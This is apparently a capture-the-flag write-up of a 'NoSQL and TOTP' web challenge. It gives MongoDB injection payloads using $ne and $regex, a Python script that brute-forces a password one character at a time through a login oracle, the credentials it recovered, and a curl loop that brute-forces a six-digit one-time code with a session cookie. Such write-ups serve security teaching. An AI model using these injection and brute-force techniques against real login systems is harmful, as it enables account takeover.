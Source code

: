 # NoSQL and  TOTP

Sadly, because of some infrastructure downtime during CTF, I didn't manage to finish the TOTP part.
However, I solved the first part (NoSQL).

## NoSQL

So, we had a webpage with some login form, playing with it shows that submitting a logging request was asking (https://nosql-totp.fic2k18.ctf/sender.php) to validate.

The payload was like :

```json
{"username": "someuser", "password": "somepassword"}
```

We know there is some nosql vulnerability, so we first tried Mongo, with something like:

```json
{"username": {"$ne": "foo"}, "password": {"$ne": "bar" }}
```

and we got `OK` \o/. So we have some oracle to guess the username and password.

`$regex` to the rescue, we can find each char one by one. Following code is to BF password, same was used for username:

```python
#!/usr/bin/env python

import requests
import urllib3
urllib3.disable_warnings()
import string
import urllib


u="https://nosql-totp.fic2k18.ctf/sender.php"

user="Barry Allen"
password=""

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (user, password + c)
            r = requests.post(u, data = {'ids': payload}, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

After a few minutes, we got :

 * Username : Barry Allen
 * Password : H5dfssdfG2DDDF665SDdf2s

## TOTP

We then logged in, and saw the site was asking for a TOTP (One time password). We didn't get the private key or whatever, however looking in TOTP/ directory (thanks to the url) we found that https://github.com/Voronenko/PHPOTP has been used. 

So likely the OTP is a six digits number, valid for 30 seconds. And once again we had an oracle sending '0' if the TOTP was invalid (and so we guess '1' if it is valid).
You can try as many OTP as you want, given they change every 30s. There are ~ 999999 possibilities so you may still get the good value after some reasonable time.

Based on this, we should be able to:

 * Login
 * Get PHPSESSID
 * Bruteforce the TOTP until I get '1'
 * Go to admin page.

I bruteforced it with some stupid curl (starting at 100000 because I was too lazy to format it correctly):

```bash
ret=0; i=100000; while [ $ret -eq 0 ];do ret=$(curl -s http://10.15.10.106:8001/TOTP/checkTotpCode.php -H 'Cookie: PHPSESSID=XXXXXXXXXX' --data "totp_code=${i}"); echo "$ret : $i"; i=$((i+1)) ;done
```

After the infrastructure came back, I started to bruteforce a bit, and at some point got this `1` I was waiting for.

Sadly, I was working on some other challenge and see it returned way too late :(
